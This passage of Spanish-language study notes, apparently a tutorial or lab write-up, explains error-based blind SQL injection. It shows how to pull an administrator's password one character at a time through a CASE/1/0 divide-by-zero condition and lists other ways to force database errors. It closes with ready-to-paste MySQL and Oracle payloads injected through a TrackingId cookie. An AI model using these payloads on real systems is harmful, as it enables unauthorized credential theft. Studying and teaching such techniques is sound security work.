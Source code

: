 ### 4.5 SQLite

* `CASE` existe y `1/0` genera `division by zero`.

---

## 5) Uso práctico para extraer datos carácter a carácter

Queremos saber si el primer carácter del password es > 'm'. Construimos la condición `SUBSTRING(password,1,1) > 'm'` y la metemos en el `CASE`:

```
xyz' AND (SELECT CASE WHEN (SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'),1,1) > 'm') THEN 1/0 ELSE 'a' END)='a
```

* Si la condición es verdadera → subconsulta intenta `1/0` → error en la DB → respuesta distinta → inferimos true.
* Si la condición es falsa → subconsulta devuelve `'a'` → no hay error → inferimos false.

Repetir con comparaciones binarias o búsqueda por rango para cada posición.

---

## 6) Alternativas para provocar error (cuando `1/0` no es práctico)

* **Conversión inválida**: `CAST((SELECT somestring) AS INT)` en motores que lancen error si la cadena no es numérica.
* **Funciones XML (MySQL)**: `extractvalue()` o `updatexml()` con una subconsulta concatenada produce errores que muestran datos.
* **FORCE error via function call**: llamar a función que no existe o pasar argumentos inválidos.
* **Arithmetic overflow / divide by zero**: `1/0` o `POWER(large, large)`.
* **Raiserror / THROW (SQL Server)**: invocar error explícito si se puede ejecutar código T-SQL.

---

## 7) Ejemplos concretos completos (payloads listos)

> Ajustá el final de comentario (`-- `) según el contexto y motor. URL-encodea al pegar en GET.

### MySQL — test condicional y provocar error (substring > 'm')

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='Administrator'),1,1) > 'm') THEN 1/0 ELSE 'a' END)='a
```

### Oracle — usando SUBSTR y FROM DUAL

```
Cookie: TrackingId=xyz' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='Administrator'),1,1) > 'm') THEN 1/0 ELSE 'a' END FROM DUAL)='a
```
